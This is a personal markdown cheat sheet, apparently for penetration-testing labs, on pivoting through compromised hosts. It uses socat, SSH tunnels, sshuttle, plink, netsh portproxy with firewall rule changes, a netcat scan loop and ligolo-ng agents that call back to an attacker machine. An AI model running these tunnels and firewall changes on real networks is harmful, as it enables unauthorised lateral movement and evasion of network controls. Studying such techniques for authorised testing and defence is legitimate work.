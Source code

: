 # Linux Port Forwarding
- look for subnet/dmz
- ``` ip route ```  | ``` ip addr ```
## Socat
- ``` socat TCP-LISTEN:2222,fork TCP:{ip}:22 ```

# SSH tunneling
  
## Local port fw 
- use 2 jump pad and go to target
- useful search port without nmap: ``` for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done ```
- kali -> victim 1 -> victim 2(10.4.xxx) -> victim3(172.16.xxx)
1. initate ssh tunneling in victim 1 ``` ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215 ``` (No shell & )
2. check service if on victim 1``` ss -ntplu ```
 
## Dynamic port fw
- Enable proxychains in kali for more comfortability on ssh tun
1. ``` nano /etc/proxychains4.conf ``` with ``` socks5 {ip of ssh tun entrance} {port of ssh tun entrance} ```
2. run in victim ``` ssh -N -D 0.0.0.0:9999 database_admin@10.4.210.215 ``` 

## REMOTE local port fw
- prob cant go victim 3 with this method but can cure the problem of inbound firewall rule
- **Care** if connected 127.0.0.1/0.0.0.0 will become victim 1 && the the port will be used
1. host ssh server in kali: ``` sudo systemctl start ssh ``` (check: ``` sudo ss -ntplu ```)
2. run remote ssh fw in victim 1``` ssh -N -R 127.0.0.1:{port to be used in kali to connect this}:{victim2 ip}:5432 kali@{kali_ip} ```


## REMOTE dynamic port fw
- run this in victim 1 ``` ssh -N -R 9998 kali@192.168.118.4 ```
- edit proxychains conf ```  socks 127.0.0.1 9998```
- need to use proxychains as above in kali to run commands
- **care** about

## sshuttle
- need root & py3
1. run simple port forwarding in victim 1 : ``` socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22 ```
2. ``` sshuttle -r database_admin@{victim 1 ip}:{victim 1} 10.4.50.0/24 172.16.50.0/24 {subnets}``` 
- works like vpn and setup 
- after success just hold there and keep running | sometimes may not receive much output

# Window Tool
## ssh.exe 
- Low probability have
- using cmd(not pwsh) to see ssh exist or not ``` where ssh ```
1. reverse REMOTE dynamic port ``` ssh -N -R 9998 kali@192.168.118.4 ``` (same as above)
- can use other ways too

## Plink (or Putty)
- Mid Prob
- Allow RDP connection for visual
- If blocked inbound from external and allow self fuck port then can use this way to start a REMOTE local port fw -> use rdp account u found to login thru this port

- Host apache / other python 80 web server to transfer
- Pull plink.exe (inside kali machine library @1.md) to victim
1. run in victim: ``` C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:{kali_port}:127.0.0.1:{to be binded port in victim} {kali ip} ```
2. kali: ``` xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833 ```

## Netsh 
- Requires ADMIN ROOT & CMD
- High Prob (since its network shell e.g. builtin firewal config tool is this)
  
### Simple forwarding
1. open 2222 on victim 1 to connect to victim 2 port 22``` netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.189.64 connectport=22 connectaddress=10.4.189.215 ``` (wont have response so need check with ``` netstat -anp TCP | find "2222" ``` OR ``` netsh interface portproxy show all ```)
  
### If filtered packet 
- Open firewall: ``` netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow ```

#### Clean up
- remove firewall rule ``` netsh advfirewall firewall delete rule name="port_forward_ssh_2222" ```
- remove port fwing ``` netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64 ```

#  ligolo-ng
- https://github.com/nicocha30/ligolo-ng/releases/tag/v0.6.2
- https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 
## Proxy (Kali) Setup
1. ``` 
    # Adds a new tun interface to our machine.
    sudo ip tuntap add user kali mode tun ligolo

    # Enables the new interface.
    sudo ip link set ligolo up
    ```
2. ```
    # With the -selfcert flag the tool dynamically 
    # generates self-signed certificates.

    ./proxy -selfcert
    ```
3. (After agent connected): ``` >>session >>start ```
   https://www.calculator.net/ip-subnet-calculator.html?cclass=any&csubnet=24&cip=172.16.184.254&ctype=ipv4&x=Calculate

4.  ```
    sudo ip route add 172.16.5.0/24 dev ligolo
    ```
5.  (Delete)
    ```
    sudo ip route remove 172.16.184.0/24
    ```

## Agent (Victim)
1. ```
    # The IP will be the IP of our Kali VM/attacking machine.
    # The -ignore-cert ignores certificate validation. 
    # This means we won't have any issues with our self-signed certs.

    ./agent -connect 10.10.14.213:11601 -ignore-cert
    ```
### Special Local forwarding 
- this tool has hardcoded ip 240.0.0.1 for accessing pivot host port
``` 
    sudo ip route add 240.0.0.1 dev ligolo
```